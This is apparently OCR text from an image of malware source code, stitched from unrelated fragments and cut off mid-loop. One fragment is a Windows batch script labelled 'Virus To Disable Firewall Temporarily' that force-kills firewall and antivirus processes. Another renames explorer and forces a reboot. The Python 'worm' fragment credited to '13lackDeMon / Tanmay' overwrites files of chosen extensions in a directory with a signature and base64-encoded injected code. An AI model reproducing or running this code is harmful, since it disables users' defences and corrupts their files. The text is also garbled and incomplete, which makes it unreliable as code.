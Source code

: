 ren %explorer% %newname%
shutdown.exe /r /t 00
rem ---------------------------------
rem Virus To Disable Firewall Temporarily
@echo off
taskkill /f /im fire*
taskkill /f /im PersFw*
taskkill /f /im ZoneAlarm*
cls
taskkill /f /im OutPost*
taskkill /f /im nv*
taskkill /f /im nav*
cls
taskkill /f /im BLACKICE*
taskkill /f /im ZAP*
taskkill /f /im minilog*
cls
taskkill /f /im offg*
taskkill /f /im ESAFE*
taskkill /f /im isafe*
cls
taskkill /f /im zlclien*
taskkill /f /im realm*
taskkill /f /im Barracuda*
cls
taskkill /f /im smc*
taskkill /f /im cis*
taskkill /f /im cav*
cls
rem ---------------------------------
if(os == 'linux' or os == 'LINUX'):
 system('clear')
 pass
elif(os == 'WINDOWS' or os == 'windows'):
 system('cls')
 pass
else:
 print '[-] Invalid OS only [ linux and windows allowed ]'
 exit(1)
print (Fore.YELLOW + '(+) WorM CoddER : 13lackDeMon / Tanmay\n' + Fore.RESET)
print (Fore.BLUE + '(*) Demon-606 13lack Worm started . . . . \n' + Fore.RESET)
sleep(2)
for files in listdir(directory_to_infect):
 try:
  if(files.split('.')[1] in files_ext_to_infect):
   if(signature.decode('base64') in files):
    pass
   else:
    vul_files.append(files)
    del files
  else:
   pass
   del files
 except:
  pass
  del files
for file in vul_files:
 if(corrupt_or_justinject == 'corrupt' or corrupt_or_justinject == 'CORRUPT'):
  try:
   f = open(file,'w')
   f.write(signature.decode('base64'))
   f.write(' ')
   f.write(code_to_inject.decode('base64'))
   f.close()